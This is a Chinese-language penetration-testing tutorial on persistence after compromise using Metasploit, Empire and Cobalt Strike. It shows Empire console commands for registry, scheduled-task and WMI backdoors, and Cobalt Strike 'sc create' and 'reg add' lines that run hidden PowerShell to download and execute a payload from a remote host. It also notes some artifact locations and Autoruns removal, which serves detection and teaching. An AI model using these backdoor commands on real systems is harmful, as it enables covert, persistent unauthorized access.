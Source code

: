 
# 0x00 前言
在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。<br />那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？


# 0x01 MSF权限维持
使用MSF维持权限的前提是先获得一个_meterpreter_  shell，通过_meterpreter_ shell获取持久性shell的方法有两种：

**Persistence模块**<br />通过启动项启动(persistence)的方式，在目标机器上以反弹回连。<br />![privilege-3-1.png](/_img\05-应急响应/1656919716270-96dc5c8c-68c1-44a6-980f-2d88f2354888.png)

```
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
```

生成的相关文件位置 ：
```
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```
![privilege-3-2.png](/_img\05-应急响应/1656919723991-c61929f2-a16d-41fa-8f92-8d041c2d8824.png)

**Metsvc 模块**<br />通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务，等待连接。<br />![privilege-3-3.png](/_img\05-应急响应/1656919731169-85bcbf34-9b43-4714-8a42-83458514b2e5.png)

后门排查：目标主机上开启了一个Meterpreter服务。<br />![privilege-3-4.png](/_img\05-应急响应/1656919737191-af7f3d18-7eb1-49f5-aa7c-d44e12251bbc.png)


# 0x02 Empire 权限维持
Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即<br />![privilege-3-17.png](/_img\05-应急响应/1656919744796-75d54336-8695-4264-a6dd-a6ccf0220420.png)

| elevated（管理权限） | misc（杂项） | powerbreach | userland（用户权限） |
| --- | --- | --- | --- |
| registry* | add_netuser | deaduser | backdoor_lnk |
| schtasks* | add_sid_history* | eventlog* | registry |
| wmi* | debugger* | resolver | schtasks |
| wmi_updater* | disable_machine_acct_change* |  |  |
|  | get_ssps |  |  |
|  | install_ssp* |  |  |
|  | memssp* |  |  |
|  | skeleton_key* |  |  |


**注册表**
```
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
```
![privilege-3-5.png](/_img\05-应急响应/1656919755446-f36c5b0d-6180-4b8c-8e67-80dda88a9a48.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：<br />![privilege-3-5.png](/_img\05-应急响应/1656919762032-3b631208-55f7-4682-8940-c1ca92ef5797.png)

**计划任务**
```
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
```
![privilege-3-7.png](/_img\05-应急响应/1656919769393-be848a7f-d2c2-46d5-a5b4-0e468b03b71f.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell<br />![privilege-3-8.png](/_img\05-应急响应/1656919777046-84f81dfb-60cb-4852-8051-758779a59b83.png)

**wmi**
```
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
```
![privilege-3-9.png](/_img\05-应急响应/1656919783632-c0a02051-abdc-478e-8d04-af51eef389a5.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。<br />![privilege-3-10.png](/_img\05-应急响应/1656919788421-8d1cda42-ef7c-4da0-a92d-51dab26c30b7.png)


# 0x03 Cobalt Strike权限维持
通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。<br />![privilege-3-11.png](/_img\05-应急响应/1656919809466-1b73a36f-3f77-4840-996e-4e0805cf6f7c.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。<br />![privilege-3-12.png](/_img\05-应急响应/1656919814722-ee9a6b9a-d8f6-4daf-9e9b-c5a020e17897.png)

点击Launch后，返回powershell远程下载执行命令。<br />![privilege-3-13.png](/_img\05-应急响应/1656919819827-99e99cee-aa66-47fa-9237-59a0a81ee509.png)

**服务自启动后门**
```
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
```

重启服务器后，成功返回一个shell。<br />![privilege-3-14.png](/_img\05-应急响应/1656919826268-f0276d71-e107-4dc8-80fa-d2dc46a02856.png)

**注册表自启动**<br />在windows启动项注册表里面添加一个木马程序路径，如：
```
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f
```


账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。<br />![privilege-3-14.png](/_img\05-应急响应/1656919840156-b45f8cf6-c2b8-427f-9a35-75ee423b17ad.png)


注册表还有哪些键值可以设置为自启动：
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

---


# 0x04 结束语
本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。
